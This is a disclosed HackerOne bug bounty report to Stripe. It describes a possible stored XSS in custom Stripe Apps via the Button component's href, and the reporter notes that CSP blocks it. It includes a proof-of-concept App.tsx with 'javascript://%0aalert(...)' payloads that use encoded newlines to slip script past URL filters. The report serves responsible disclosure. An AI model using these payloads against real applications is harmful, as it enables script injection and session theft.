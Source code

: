 # XSS vulnerability without a content security bypass in a `CUSTOM` App through Button tag

## Report Details
- **Report ID**: 1823216
- **URL**: https://hackerone.com/reports/1823216
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-05T10:56:56.962Z
- **Disclosed**: 2023-05-01T21:40:23.322Z

## Reporter
- **Username**: saajanbhujel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripe

## Vulnerability Information
## Summary:
Hi security team members,

Hope you are well and doing great :)

I found a **Possible XSS vulnerability in `CUSTOM` App through the Button tag but I was not able to bypass a content security policy.**

This report is similar to my previous report(#1804177). The only difference is that the previous issue I found on a live Stripe App(which uses a `Link` tag maybe). But, here in this report "I found it possible to create an XSS vulnerability with the help of the `Button` tag".

## Description:
**This occurs when you create a CUSTOM app with the Button tag**. Like:- `<Button href="javascript://%0aalert(document.domain)">XSS</Button>`

## Steps To Reproduce:
1. Create a demo Custom app through stripe-cli
2. Replace your viewport with `"viewport": "stripe.dashboard.drawer.default"` in `stripe-app.json`, So the app works on every page in the dashboard
3. Copy and paste the below code into your `App.tsx` file
```
import { Box, ContextView, Inline, Link } from "@stripe/ui-extension-sdk/ui";
import type { ExtensionContextValue } from "@stripe/ui-extension-sdk/context";
import {Button} from '@stripe/ui-extension-sdk/ui';
import {Img} from '@stripe/ui-extension-sdk/ui'
import {Chip, ChipList} from '@stripe/ui-extension-sdk/ui';

import BrandIcon from "./brand_icon.svg";

/**
 * This is a view that is rendered in the Stripe dashboard's customer detail page.
 * In stripe-app.json, this view is configured with stripe.dashboard.customer.detail viewport.
 * You can add a new view by running "stripe apps add view" from the CLI.
 */

const App = ({ userContext, environment }: ExtensionContextValue) => {
  return (
    <ContextView
      title="XSS POC"
      brandColor="#F6F8FA" // replace this with your brand color
      brandIcon={BrandIcon} // replace this with your brand icon
    >
	  
	  <Button href="javascript://%0aalert(123)">
		XSS with %0a
	  </Button>
	  <Button href="javascript://%0dalert(document.domain)">
		XSS with %0d
	  </Button>
	  
    </ContextView>
  );
};

export default App;
```
3. Then, Run and Open your app
4. Once you open your app then after click on the button link. It will doesn't execute because of CSP.
{F2106779}

5. But, If you turn off your CSP protection with the help of an [extension](https://chrome.google.com/webstore/detail/disable-content-security/ieelmcmcagommplceebfedjlakkhpden) then XSS will execute.
{F2106780}

## Video POC:
{F2106781}

## Impact

If an attacker is able to bypass CSP then there is a possible stored XSS vulnerability in https://dashboard.stripe.com.

## Attachments
- CSP.png
- XSS_when_csp_is_off.png
- Video.webm
